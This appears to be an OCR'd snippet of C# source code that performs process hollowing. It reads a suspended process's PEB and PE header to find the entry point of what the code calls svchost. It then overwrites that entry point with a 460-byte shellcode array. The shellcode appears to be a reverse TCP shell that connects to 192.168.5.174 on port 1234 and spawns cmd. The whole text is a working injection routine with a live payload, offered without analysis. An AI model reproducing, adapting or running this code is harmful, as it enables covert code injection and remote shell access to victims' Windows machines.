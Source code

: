 ```csharp
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebBaseAddress + 0x10);
            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            // Parse PE Header
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3c);
            uint opthdr = e_lfanew_offset + 0x28;

            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

            byte[] buf = new byte[460] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
            0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,
            0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
            0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
            0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,
            0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,
            0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
            0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
            0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
            0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
            0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
            0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
            0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
            0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
            0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
            0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
            0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
            0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
            0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x04,0xd2,
            0xc0,0xa8,0x05,0xae,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
            0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
            0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
            0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,
            0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,
            0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,
            0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,
            0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
            0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,
            0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,
            0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x01,0x01,0x48,0x8d,
            0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,
            0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
            0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,
            0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,
            0xba,0x08,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,
            0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,
            0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
            0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5};

            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

```